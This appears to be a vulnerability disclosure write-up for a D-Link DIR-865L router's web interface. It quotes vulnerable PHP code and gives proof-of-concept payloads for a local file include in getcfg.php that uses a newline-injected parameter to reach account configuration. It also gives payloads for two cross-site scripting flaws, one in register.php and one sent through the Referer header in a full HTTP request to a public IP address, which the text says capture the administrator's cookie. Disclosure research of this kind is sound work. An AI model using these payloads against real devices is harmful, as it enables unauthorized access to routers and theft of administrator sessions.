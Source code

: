 ###  Local File Include

getcfg.php

``` 
if(is_power_user() == 1)
	{
		/* cut_count() will return 0 when no or only one token. */
		$SERVICE_COUNT = cut_count($_POST["SERVICES"], ",");
		TRACE_debug("GETCFG: got ".$SERVICE_COUNT." service(s): ".$_POST["SERVICES"]);
		$SERVICE_INDEX = 0;
		while ($SERVICE_INDEX < $SERVICE_COUNT)
		{
			$GETCFG_SVC = cut($_POST["SERVICES"], $SERVICE_INDEX, ",");
			TRACE_debug("GETCFG: serivce[".$SERVICE_INDEX."] = ".$GETCFG_SVC);
			if ($GETCFG_SVC!="")
			{
				$file = "/htdocs/webinc/getcfg/".$GETCFG_SVC.".xml.php";
				/* GETCFG_SVC will be passed to the child process. */
				if (isfile($file)=="1") dophp("load", $file);
			}
			$SERVICE_INDEX++;
		}
	}
```

POC

``` 
SERVICES=DEVICE.ACCOUNT&aaa=%0aAUTHORIZED_GROUP=1
```



![image-20191031111027019](https://github.com/Cyc1eC/D-Link/blob/master/DIR-865L/image-20191031111027019.png)

We can arbitrarily include all files ending in .xml.php,suce as DEVICE.ACCOUNT.xml.php

### 2.XSS

#### （1）path: parentalcontrols/register.php

```
			var Response = "<? echo $Response; ?>";
			function Body() {}
			Body.prototype =
			{
				OnLoad: function()
				{
					if(Response == "Unauthorized")
					{
						document.getElementById("authorize").style.display = "block";
					}
					else if(Response == "InternetUnreachable")
					{
						document.getElementById("InternetUnreach").style.display = "block";
					}
					else if(Response == "Devicebinded")
					{
						document.getElementById("device_binded").style.display = "block";
					}									
				},
				LoginSubmit: function(password_type, overwrite_deviceid)
				{
					if(password_type === "new") var pwd = document.getElementById("loginpwd").value;
					else var pwd = "<? echo $_GET["password"];?>";
					self.location.href = "/parentalcontrols/register.php?username=" + "<? echo $ADMIN_name;?>" + "&password=" + pwd + "&overriteDeviceID=" + overwrite_deviceid;
				},
				window_close: function()
				{
					window.opener=null;   
					window.open("","_self");   
					window.close();
				}						
			};
			var BODY = new Body();	
```

``` else var pwd = "<? echo $_GET["password"];?>"; ``` We can construct the value of password arbitrarily
if we send data : </script><script>alear(document.cookie)</script><script> we can get the cookie of Admin

![image-20191031111539987](https://github.com/Cyc1eC/D-Link/blob/master/DIR-865L/image-20191031111539987.png)



#### 2.path: /htdocs/webinc/js/tools_fw_rlt.php

code:

```php
		$referer = $_SERVER["HTTP_REFERER"];
		......
		$title = i18n("Language Pack Upload Fail");
		$message = "'".i18n("The language pack image is invalid.")."', "."'<a href=\"".$referer."\">".i18n("Click here to return to the previous page.")."</a>'";
```

The $referer variable has more places to assign values, so there are more trigger positions.

POC

``` 
POST /tools_fw_rlt.php?PELOTA_ACTION=fwupdate HTTP/1.1
Host: 116.50.243.85
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 16
Referer: </script><script>alert(document.cookie)</script><script>
Cookie: uid=ScrWKA5Tlb
Connection: close
Upgrade-Insecure-Requests: 1

ACTION=langclear
```

![image-20191031205417181](https://github.com/Cyc1eC/D-Link/blob/master/DIR-865L/image-20191031205417181.png)
